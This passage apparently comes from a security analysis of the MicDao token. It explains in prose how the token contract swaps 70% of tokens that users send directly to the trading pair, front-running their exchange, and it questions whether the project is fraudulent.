When users directly transfer tokens to the pair for exchange or liquidity provision, 70% of the tokens are immediately exchanged by the token contract in advance. This seems highly unreasonable, equivalent to reducing the user's token holdings by 70%, and the origin exchange was frontrun, inflating the price. But on the flip side, it prevents attacks similar to the previous one.

As a result, while regular users can acquire MicDao tokens at a fixed price, selling them directly would result in a clear loss. This raises concerns and suspicions about whether this is a fraudulent project.

